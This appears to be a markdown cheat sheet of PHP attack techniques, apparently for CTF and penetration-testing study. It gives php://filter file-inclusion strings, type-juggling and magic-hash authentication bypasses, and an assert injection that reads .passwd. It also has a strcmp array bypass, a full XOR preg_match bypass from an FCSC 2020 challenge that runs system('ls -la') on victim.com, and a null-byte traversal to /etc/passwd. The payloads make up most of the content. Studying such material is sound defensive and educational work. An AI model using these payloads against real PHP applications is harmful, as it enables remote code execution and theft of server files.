 ```yaml
---
title: PHP vulnerabilities
description: PHP vulnerabilities
---
```


# PHP

## PHP Wrappers

Official docs [here](https://www.php.net/manual/en/wrappers.php).

All wrappers :

```
file:// — Accessing local filesystem
http:// — Accessing HTTP(s) URLs
ftp:// — Accessing FTP(s) URLs
php:// — Accessing various I/O streams
zlib:// — Compression Streams
data:// — Data (RFC 2397)
glob:// — Find pathnames matching pattern
phar:// — PHP Archive
ssh2:// — Secure Shell 2
rar:// — RAR
ogg:// — Audio streams
expect:// — Process Interaction Streams
```

File inclusion :

```
php://filter/resource=index.php
php://filter/read=convert.base64-encode/resource=index.php
php://filter/read=string.toupper/resource=index.php
php://filter/read=string.toupper|string.rot13/resource=index.php
```

## Type juggling

If you use `===`, PHP will do a strict comparison.

```php
"1" == 1        True
"1" === 1       False
"admin" == 0    True
"admin" === 0   False
```

You can find the comparison table [here](https://www.php.net/manual/en/types.comparisons.php).

## Magic Hashes

You cand find a list of magic hashes [here](https://github.com/spaze/hashes).

```php
md5('QLTHNDT') = 0e405967825401955372549139051580
0e405967825401955372549139051580 = 0 exponents 405967825401955372549139051580 = 0
php > var_dump(md5('QLTHNDT') == "0");
bool(true)
```

`0 power n` is equals to `0`.

## Interesting function

**eval** code execution :

```php
eval("phpinfo();");
```

**preg_replace** code execution (removed since PHP v7.0.0)

```php
preg_replace('/test/e', 'phpinfo()', 'test');

PREG_REPLACE_EVAL
```

More informations [here](https://www.php.net/manual/en/reference.pcre.pattern.modifiers.php)

**assert** without verification :

```php
assert("strpos('includes/$_GET['name'].inc.php', '..') === false")

victim.com/index.php?name=', 'A') === false and strlen(file_get_contents('.passwd')) === 10 and strpos('

Will result as : assert("strpos('includes/', 'A') === false and strlen(file_get_contents('.passwd')) === 10 and strpos('.inc.php', '..') === false")
```

**strcmp** array / null bypass :

```php
php > var_dump(strcmp(Array(), "admin") == 0);
PHP Warning:  strcmp() expects parameter 1 to be string, array given in php shell code on line 1
bool(true)

Ex: strcmp($_GET['username'], 'admin') == 0
victim.com/index.php?name[]=
```

```php
php > var_dump(strcmp(null, "admin") == True);
bool(true)

php > var_dump(strcmp(null, "admin") === True);
bool(false)
```

**preg_match** bypass with XOR :

Example (Challenge Lipogram from FCSC 2020) :

```php
if (preg_match('/a|e|i|o|u|y|[0-9]/i', $_GET['code'])) {
 die('No way! Go away!');
} else {
 try {
 eval($code);
 } catch (ParseError $e) {
 die('No way! Go away!');
 }
}
```

Solve :

```
The goal is to create new GET parameters that will be evaluted by the function eval, but not checked by the preg_match, because the preg_match function will check only the parameter 'code'.

And then, do something like this inside eval :

$_GET['func_name']($_GET['argument']);

victim.com/index.php?func_name=system&argument=ls
will execute : system('ls')
```

```php
To create GET parameters we will use the XOR operation to bypass the preg_match.

$_ = "`{{{" ^ "?<>/";                   => _GET
${$_}[_](${$_}[__]);                    => $_GET[_]($_GET[__])
${$_}[_](${$_}[__](${$_}[___]));        => $_GET[_]($_GET[__]($_GET[___]))

victim.com/index.php?code=$_="`{{{"^"?<>/";${$_}[_](${$_}[__]);&_=system&__=ls+-la
victim.com/index.php?code=$_="`{{{"^"?<>/";${$_}[_](${$_}[__](${$_}[___]));&_=highlight_string&__=file_get_contents&___=index.php
```

## Tips

### Null byte

Null Byte : %00 (PHP Version < 5.3.4)

`http://victim.com/index.php?file=../etc/passwd%00`

